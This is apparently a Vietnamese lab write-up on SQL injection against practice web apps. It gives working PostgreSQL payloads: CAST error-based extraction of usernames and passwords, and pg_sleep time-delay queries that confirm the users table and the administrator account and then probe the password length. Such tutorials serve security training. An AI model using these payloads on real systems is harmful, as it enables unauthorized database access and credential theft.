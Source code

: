 ![image-59](https://gist.github.com/user-attachments/assets/4aa95570-0fa0-4c76-a327-eba8da607be3)

Phần int đã bị mất


![image-60](https://gist.github.com/user-attachments/assets/88b81f1a-2883-4b39-9ec4-beed989e2ef5)

Payload:`' AND 1=CAST((SELECT username from users limit 1) AS int)--`

Do câu query trả về không được quá 1 dòng nên mình đã limit lại

Làm tương tự lấy được pass

![image-61](https://gist.github.com/user-attachments/assets/d720de18-e88e-4248-b5af-60f4deae0f4d)


## Lab: Blind SQL injection with time delays and information retrieval

![image-62](https://gist.github.com/user-attachments/assets/60b687e0-833c-4b6d-9520-35af21971501)

Bài này ta sẽ dùng time delay để xác định đúng sai, về mặc ý tưởng ý hệt conditional responses chỉ khác về cách nhận biết 1 cái dùng thời gian 1 cái dùng sự thay đổi của trang.

![image-63](https://gist.github.com/user-attachments/assets/f81da95b-6fc1-484b-a424-c1de2e27da24)

Payload:`' || pg_sleep(3) -- -`

Về payload này đầu tiên ta sẽ thoát chuỗi query sau đó nối dài câu query bằng toán tử concat **||** và **sleep** tùy thuộc vào database mà sử dụng concat và sleep khác nhau, sau khi thực thi thì thấy response bị chậm 3s, thử với 5s

![image-64](https://gist.github.com/user-attachments/assets/0078012f-cfd0-40ef-9026-9b0767e2b20f)

Tiếp theo các bước vẫn như cũ tìm kiếm table, user, pass

Payload:`'||(SELECT CASE WHEN (2=2) THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users) -- -`

Trường hợp có bảng users

![image-65](https://gist.github.com/user-attachments/assets/e1cfa48b-47f3-4f65-bc58-747882c2dc38)

Ta thử một bảng không có xem sao

![image-66](https://gist.github.com/user-attachments/assets/76259da7-eed9-4c05-a325-761901e7911b)

Payload:`'||(SELECT CASE WHEN (2=2) THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator') -- -`

![image-67](https://gist.github.com/user-attachments/assets/548f2836-877c-499b-8524-3689e5609ddf)

Tìm độ dài pass

Payload:`'||(SELECT CASE WHEN (2=2) THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND LENGTH(password)=20) -- -`
